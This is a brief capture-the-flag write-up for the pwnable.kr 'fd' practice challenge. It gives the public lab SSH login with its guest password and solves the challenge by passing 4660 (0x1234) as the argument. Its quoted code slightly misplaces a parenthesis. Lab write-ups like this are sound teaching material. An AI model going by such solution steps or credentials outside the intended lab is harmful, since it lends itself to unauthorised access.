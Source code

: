 # fd 

---

ssh fd@pwnable.kr -p2222 (pw:guest)


## Exploitation

```
atoi(argv[1] - 0x1234)
```

python -c "print 0x1234"

so ,

```
./fd 4660
```
